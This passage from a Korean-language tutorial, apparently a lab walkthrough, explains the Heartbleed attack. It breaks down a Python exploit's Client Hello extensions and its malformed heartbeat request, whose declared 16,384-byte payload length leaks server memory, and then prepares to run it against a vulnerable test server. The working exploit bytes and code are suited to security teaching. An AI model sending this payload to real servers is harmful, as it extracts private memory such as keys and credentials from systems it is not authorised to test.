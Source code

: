 그 중 첫 두 가지의 확장 Elliptic-curve cipher에 관련하여 정의하고 있다.

|             |                    |
| ----------- | ------------------ |
| 00 23 00 00 | TLS session ticket |

그 다음 TLS 세셧 티켓 확장 모듈을 지원한다는 것을 알려준다.

|                |                     |
| -------------- | ------------------- |
| 00 0f 00 01 01 | Heartbeat extension |

마지막으로 우리의 목적인 TLS 하트비트 확장을 지원한다는 것을 정의한다.

이것으로 Cilent Hello 메시지에 대한 분석을 끝냈다. 서버에게서 Hello Done 응답 메시지를 성공적으로 받으면 하트비트 요청 메시지 작성을 시작한다.

```python
hb = h2bin('''
18 03 02 00 03
01 40 00
''')
s.send(hb)
hit_hb(s)
```
하트비트 요청 메시지 코드는 앞의 Client Hello에 비하면 훨씬 짧고 간단하게 되어있다.

|       |                           |
| - | - |
| 18    | TLS record is a heartbeat |
| 03 02 | TLS version 1.1           |

첫 필드는 TLS 레코드가 하트비트임을 명시하고 TLS 버전을 알려준다.

|       |                   |
| ----- | ----------------- |
| 00 03 | Length            |
| 01    | Heartbeat request |

다음으로 하트비트 메시지의 길이와 이 메시지가 하트비트 요청임을 명시 하고있다.

|       |                              |
| ----- | ---------------------------- |
| 40 00 | Payload length (16384 bytes) |

마지막으로, 공격의 핵심에 해당하는 부분이다. Payload의 길이를 16,384바이트라 표시하고 있다. 하지만 그 만큼의 길이에 해당하는 메시지를 보내지 않는다. 하트블리드 공격의 원리에 대하여 설명한 바와 같이 이 값에 의하여 해당 바이트 만큼의 서버 메모리에 있는 정보를 응답으로 되돌려 받는다. 마지막으로 이 파이썬 코드에서는 되돌려받은 메시지를 헥사 덤프로 화면에 출력한다.

다음으로 이 공격 스크립트 코드를 이용하여 테스트를 위한 취약 서버를 타겟으로 실행해보도록 한다. 서버는 앞서 설명한 바와 같이 1.0.1버전의 OpenSSL, 2.4.18 버전의 Apache가 80번, 443번 포트에 각각 HTTP, HTTPS 서비스를 동작시키고 있다.

![screenshot]({{ "/assets/images/heartbleed-attack-and-defense/screenshot.png" | absolute_url }})  
(그림 3) 하트블리드(Heartbleed) 취약점 공격 실습
